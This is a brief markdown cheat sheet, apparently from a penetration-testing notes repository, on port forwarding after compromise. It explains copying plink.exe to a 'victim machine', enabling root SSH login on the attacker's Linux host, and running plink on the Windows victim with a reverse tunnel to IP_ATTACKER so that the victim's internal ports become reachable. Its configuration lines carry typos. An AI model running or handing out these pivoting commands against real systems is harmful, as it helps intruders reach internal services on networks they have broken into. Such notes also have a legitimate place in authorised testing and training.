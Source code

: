 # Port Forwarding

* Download plink.exe -> https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html
* Transfer plink to the victim machine
* apt install ssh -> On linuc
* Edit /etc/ssh/sshd_config, change #PermiRootLogin prohibit-password to PermiRootLogin yes
* ssh service restart
* ssh service start
[+] On the windows victim machine
* plink.exe -l root -pw YOUR_ROOT_PASSWORD -R PORT:127.0.0.1:PORT IP_ATTACKER
If you have troubles uncomment the Port 22 and change for Port 8888 on file /etc/ssh/sshd_config
* plink.exe -l root -pw YOUR_ROOT_PASSWORD -P 8888 -R PORT:127.0.0.1:PORT IP_ATTACKER
* y

[!] TRY TO USE THE ENTER KEY A COUPLE OF TIMES IN CASE YOU DON'T SEE NOTHING
